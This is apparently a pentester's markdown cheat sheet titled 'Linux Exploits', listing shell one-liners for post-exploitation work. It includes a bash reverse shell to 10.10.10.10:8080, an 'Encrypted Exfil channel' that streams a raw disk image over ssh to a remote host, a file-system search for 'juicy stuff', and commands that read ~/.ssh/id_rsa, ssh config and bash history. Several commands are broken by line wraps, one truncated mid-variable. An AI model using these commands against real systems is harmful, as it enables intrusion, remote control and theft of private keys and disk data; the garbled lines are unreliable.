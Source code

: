 # Linux Exploits

## Commands

Redirect IPv6 listening TCP port to
localhost IPv4.
```shell
IPV6ADDR=fc00:660:0:1::46
&& PORT=110 && socat
TCP-LISTEN:$PORT,reuseaddr,
fork TCP6:[$IPV6ADDR]:$POR
```

Find Juicy Stuff in the File System
```shell
 find /PATH/TO/DIRECTORY
-name "FILE-FILTER" -type
f -exec grep -i "STRING"
{} \; -print 2>/dev/null
```

Find public ip
```shell
curl -4 icanhazip.com
```

Make output easier to read
```shell
alias ccat='pygmentize
-O bg=dark,style=colorful'
```

Encrypted Exfil channel
```shell
dd if=/dev/rdisk0s1s2
bs=65536 conv=noerror,sync
| ssh -C user@10.10.10.10
"cat >/tmp/image.dd"
```

Check service every second
```shell
while (true); do nc -vv
-z -w3 10.10.10.10 80 >
/dev/null && echo -e
"Service is up"; sleep 1;
done
```

Website Cloner
```shell
wget -r -nH $URL
```

Type “gah” after you forgot to use sudo, and it’ll sudo your most recent command.
```shell
alias gah='sudo $(history
-p \!\!)'
```

Create a reverse shell back to a
given IP address and port.

```shell
bash -i >&
/dev/tcp/10.10.10.10/8080
0>&1
```

Encode or decode base64
information.
```shell
echo 'Hello, World!' |
base64

echo
'SGVsbG8sIFdvcmxkIQo=' |
base64 -d
```

## Helpful Commands

```shell
cat ~/.bash_history
cat ~/.ssh/config
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts
```

## Resources
* [APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)